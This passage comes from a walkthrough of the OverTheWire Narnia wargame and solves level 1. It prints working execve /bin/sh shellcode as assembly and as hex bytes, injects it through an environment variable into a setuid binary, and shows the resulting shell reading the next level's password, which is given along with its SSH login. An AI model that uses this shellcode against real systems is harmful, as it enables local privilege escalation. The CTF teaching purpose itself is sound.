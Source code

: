 ```c
}
```

Here, the code will execute anything we put in the **EGG** environment variable, we only need to find a shellcode and set the **EGG** variable. I used a random shellcode from the [Exploit Database](https://www.exploit-db.com/exploits/44594).

```nasm
; https://www.exploit-db.com/exploits/44594
section .text
global _start

_start:
    xor ecx, ecx
    mul ecx
    push ecx
    mov edi, 0x978CD0D0
    mov esi, 0x91969DD0
    not edi
    not esi
    push edi
    push esi
    mov ebx, esp
    mov al, 0xb
    int 0x80
```

Here is the shellcode :

```text
\x31\xc9\xf7\xe1\x51\xbf\xd0\xd0\x8c\x97\xbe\xd0\x9d\x96\x91\xf7\xd7\xf7\xd6\x57\x56\x89\xe3\xb0\x0b\xcd\x80
```

Now, let's export it as an environment variable an re-execute the program.

```bash
narnia1@narnia:/narnia$ export EGG=`python -c 'print "\x31\xc9\xf7\xe1\x51\xbf\xd0\xd0\x8c\x97\xbe\xd0\x9d\x96\x91\xf7\xd7\xf7\xd6\x57\x56\x89\xe3\xb0\x0b\xcd\x80"'`
narnia1@narnia:/narnia$ ./narnia1
Trying to execute EGG!
$ whoami
narnia2
$ cat /etc/narnia_pass/narnia2
nairiepecu
```

Done !

## Narnia 02 Solution

**SSH :** *ssh narnia2@narnia.labs.overthewire.org -p 2226*<br/>
**Pass :** *nairiepecu*

First, let's try to execute the program...
